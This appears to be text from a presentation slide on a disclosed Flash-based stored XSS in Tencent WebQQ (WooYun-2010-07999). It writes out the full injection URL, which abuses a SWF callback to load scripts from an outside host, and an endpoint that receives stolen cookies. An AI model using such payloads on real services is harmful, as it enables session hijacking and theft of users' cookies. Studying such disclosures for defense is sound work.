

Wooyun-2010-07999
Flash-based 存储型XSS 及其防御

腾讯WEBQQ的持久劫持
受害者
http://xsst.sinaapp.com/webqqbg.php
Iframe调用
劫持
http://web.qq.com/swf/FileUploader.swf?callback=(function(){function j(w){window.s=document.createElement('script');window.s.src='//xsst.sinaapp.com/'%2bw%2b'.js';document.body.appendChild(window.s)}j('jq');j('wq')})()
Flash xss
http://cgi.web2.qq.com/keycgi/qqweb/newuac/set.do
设置主题
调用外部JS
xsst.sinaapp.com/wq.js
http://s.web2.qq.com/api/get_self_info2
获取vfwebqq参数
获取cookies
http://xsst.sinaapp.com/getvfqq.php?cookie={Cookie数据}